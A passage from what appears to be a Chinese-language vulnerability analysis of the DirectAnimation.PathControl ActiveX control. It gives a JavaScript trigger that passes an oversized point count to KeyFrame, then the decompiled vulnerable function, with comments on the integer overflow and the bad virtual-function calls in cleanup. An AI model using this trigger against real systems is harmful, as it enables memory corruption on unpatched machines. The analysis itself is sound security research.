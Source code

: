 下面的 JavaScript 代码将触发漏洞：

```js
var target = new ActiveXObject("DirectAnimation.PathControl");
target.KeyFrame(0x7fffffff, new Array(1), new Array(1));
```

### 8.2 漏洞代码段

漏洞位于 `DAXCTLE.OCX` 中的 `CPathCtl::KeyFrame` 函数内。该函数的反编译代码如下：

```c
long __stdcall CPathCtl::KeyFrame(unsigned int npoints,
                                     struct tagVARIANT KeyFrameArray,
                                     struct tagVARIANT TimeFrameArray)
{
    int err = 0;
    ...
    // new 操作符是对 CMemManager::AllocBuffer 的包装。
    // 如果长度小于 0x2000，它会从 CMemManager 堆分配块，否则它等价于：
    // HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, size+8) + 8
    buf_1                  = new((npoints*2) * 8);
    buf_2                  = new((npoints-1) * 8);
    KeyFrameArray.field_C  = new(npoints*4);
    TimeFrameArray.field_C = new(npoints*4);
    if (buf_1 == NULL || buf_2 == NULL || KeyFrameArray.field_C == NULL ||
           TimeFrameArray.field_C == NULL)
    {
        err = E_OUTOFMEMORY;
        goto cleanup;
    }
    // 如果 KeyFrameArray 长度小于 npoints*2 或者 TimeFrameArray 长度小于 npoints-1，我们将设置一个错误值并转入扫尾代码段
    if ( KeyFrameArrayAccessor.ToDoubleArray(npoints*2, buf_1) < 0 ||
           TimeFrameArrayAccessor.ToDoubleArray(npoints-1, buf_2) < 0)
    {
        err = E_FAIL;
        goto cleanup;
    }
    ...

cleanup:
    if (npoints > 0){
        // 我们从 0 遍历到 npoints，对每一个 KeyFrameArray->field_C 和 TimeFrameArray->field_C 的非零元素调用虚函数
        for (i = 0; i < npoints; i++) {
            if (KeyFrameArray.field_C[i] != NULL)
                KeyFrameArray.field_C[i]->func_8();
            if (TimeFrameArray.field_C[i] != NULL)
                TimeFrameArray.field_C[i]->func_8();
        } 
    }
    ...
    return err;
}
```
